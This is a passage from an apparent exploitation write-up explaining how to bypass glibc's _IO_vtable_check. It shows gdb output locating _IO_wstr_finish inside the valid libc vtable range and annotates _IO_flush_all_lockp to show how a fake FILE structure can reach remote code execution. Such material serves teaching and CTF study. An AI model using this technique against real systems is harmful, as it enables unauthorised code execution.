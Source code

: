So, our vtable must lay somewhere between `0x7ffff7dcd8c0` and `0x7ffff7dce628`, preventing us from simply using a heap chunk we control as the vtable pointer. 

So given this, is there any way to bypass this check to get RCE still? 

## Bypassing _IO_vtable_check
Fortunately, there is a nice vtable we can use that exists in this valid vtable range. 

{% highlight bash %}
gdb-peda$ p _IO_wstr_finish
$11 = {void (_IO_FILE *, int)} 0x7ffff7a848e0 <_IO_wstr_finish>
gdb-peda$ find 0x7ffff7a848e0 all
Searching for '0x7ffff7a848e0' in: all ranges
Found 2 results, display max 2 items:
libc : 0x7ffff7dcdbd0 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:    push   rbx)
libc : 0x7ffff7dcdc90 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:    push   rbx)
gdb-peda$ telescope 0x7ffff7dcdc90-0x18 20
0000| 0x7ffff7dcdc78 --> 0x0 
0008| 0x7ffff7dcdc80 --> 0x0 
0016| 0x7ffff7dcdc88 --> 0x0 
0024| 0x7ffff7dcdc90 --> 0x7ffff7a848e0 (<_IO_wstr_finish>:     push   rbx)
0032| 0x7ffff7dcdc98 --> 0x7ffff7a846e0 (<_IO_wstr_overflow>:   mov    edx,DWORD PTR [rdi])
0040| 0x7ffff7dcdca0 --> 0x7ffff7a84680 (<_IO_wstr_underflow>:  mov    rax,QWORD PTR [rdi+0xa0])
0048| 0x7ffff7dcdca8 --> 0x7ffff7a833c0 (<__GI__IO_wdefault_uflow>:     push   rbp)
0056| 0x7ffff7dcdcb0 --> 0x7ffff7a848c0 (<_IO_wstr_pbackfail>:  test   BYTE PTR [rdi],0x8)
0064| 0x7ffff7dcdcb8 --> 0x7ffff7a83930 (<__GI__IO_wdefault_xsputn>:    test   rdx,rdx)
0072| 0x7ffff7dcdcc0 --> 0x7ffff7a83c10 (<__GI__IO_wdefault_xsgetn>:    push   r15)
0080| 0x7ffff7dcdcc8 --> 0x7ffff7a84bd0 (<_IO_wstr_seekoff>:    test   ecx,ecx)
0088| 0x7ffff7dcdcd0 --> 0x7ffff7a8de40 (<_IO_default_seekpos>: push   rbx)
0096| 0x7ffff7dcdcd8 --> 0x7ffff7a8dd10 (<_IO_default_setbuf>:  push   r13)
0104| 0x7ffff7dcdce0 --> 0x7ffff7a8e0c0 (<_IO_default_sync>:    xor    eax,eax)
{% endhighlight %}

**The reason why this particular address is such a good target, is because if we set our fake `_IO_FILE_plus->vtable` to `0x7ffff7dcdc78`, we will call `_IO_wstr_finish()` if `_IO_OVERFLOW(fp)` in `_IO_flush_all_lockp()` is called!**


{% highlight C %}
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;
  
  last_stamp = _IO_list_all_stamp;  
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
      run_fp = fp;
    
      // conditions to satisfy are as follows:
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // uses vtable. we want to call this!

      if (last_stamp != _IO_list_all_stamp)
	{
	  /* Something was added to the list.  Start all over again.  */
	  fp = (_IO_FILE *) _IO_list_all;
	  last_stamp = _IO_list_all_stamp;
	}